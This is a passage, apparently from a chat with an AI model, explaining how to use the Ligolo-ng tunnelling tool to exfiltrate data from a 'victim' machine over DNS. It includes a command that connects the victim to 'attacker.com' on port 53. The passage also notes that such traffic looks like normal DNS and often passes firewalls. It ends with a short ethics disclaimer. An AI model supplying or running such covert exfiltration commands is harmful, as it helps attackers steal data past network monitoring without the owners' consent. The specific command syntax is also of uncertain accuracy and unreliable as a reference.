 On `victim.host` (assuming the attacker somehow executes this):

```bash<button class="flex ml-auto gizmo:ml-0 gap-2 items-center"><svg stroke="currentColor" fill="none" stroke-width="2" viewBox="0 0 24 24" stroke-linecap="round" stroke-linejoin="round" class="icon-sm" height="1em" width="1em" xmlns="http://www.w3.org/2000/svg"><path d="M16 4h2a2 2 0 0 1 2 2v14a2 2 0 0 1-2 2H6a2 2 0 0 1-2-2V6a2 2 0 0 1 2-2h2"></path><rect x="8" y="2" width="8" height="4" rx="1" ry="1"></rect></svg>Copy code</button>
ligolo-ng client -s attacker.com:53 --protocol dns

```
This starts the Ligolo-ng client on the victim's machine, which will tunnel the data over DNS to the attacker.

The data being exfiltrated would be sent as DNS queries, which, to most network monitoring tools, would appear as standard DNS requests. However, these queries contain the sensitive data encoded.

### Important Notes:

- Ligolo-ng supports multiple protocols like ICMP, TCP, and UDP apart from DNS. DNS is just one example, and it's commonly used because DNS requests are often allowed to pass through firewalls, making them an effective covert channel.
- The commands above are basic usage examples. Ligolo-ng has additional options and configurations that allow for more advanced usage.
- Always act ethically and within the bounds of the law. The scenarios above are hypothetical and for educational purposes. Gaining unauthorized access or exfiltrating data without permission is illegal.



------------------
